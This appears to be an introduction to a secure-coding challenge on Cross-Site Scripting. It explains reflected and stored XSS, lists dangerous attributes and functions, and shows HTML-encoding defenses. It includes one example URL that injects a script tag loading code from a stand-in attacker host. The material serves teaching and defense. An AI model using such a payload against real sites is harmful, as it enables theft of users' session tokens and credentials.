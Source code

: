 JavaScript’s biggest foe is Cross-Site Scripting (abbreviated XSS). This type of attack occurs when a web page accepts input containing JavaScript from an untrusted source and renders it in the context of the page. It’s a form of code injection.

The target is the user identity. The server relies on authentication tokens and credentials to identify the user. The malicious script will extract this information from the browser and send it to a site the attacker controls (hence the name Cross-Site Scripting). The script makes it into the page via a specially crafted URL sent to the user (reflected XSS ) or by saving it into the site as an article or message (stored XSS).

Example URL with XSS payload:
    
    https://site.com/search.jsp?q='"/><script src="https://evil.bad/xss.js"></script>

#####Code Defenses Against Cross-Site Scripting

To prevent the attack the application must **neutralize the user input**. This means that the input will be inserted in the page without being rendered or executed. Most modern JavaScript frameworks such as **Angular** or **React** do this implicitly. 

In the Angular example below the `fullName` parameter is embedded in the link innerText, a safe context.

    <a class="nav-link"><span class="oi oi-account-logout"> Logout {{fullName}} </a>

However, sometimes you must extend the JavaScript framework by designing your own UI elements. When doing this you must keep in mind that the following page contexts are dangerous since they will execute input as JavaScript.

Dangerous HTML element attributes:

- innerHTML
- src
- onLoad, onClick, etc…

Dangerous functions:

- eval
- setTimeout
- setInterval

In the case of legacy web applications server side rendered code (JSP, PHP, ASPX) co-exists with modern pages and maintenance of the server side code may introduce new Cross-Site Scripting issues, if user input is not neutralized. In those cases HTML Encoding functions have to be called to turn hazardous HTML markup into safe strings.

`<` becomes `&lt;`

`>` becomes `&gt;`

`"` becomes `&quot;`

In this challenge you will take a look at a few samples to understand how to spot Cross-Site Scripting during code review. Select the code that prevents the vulnerability.

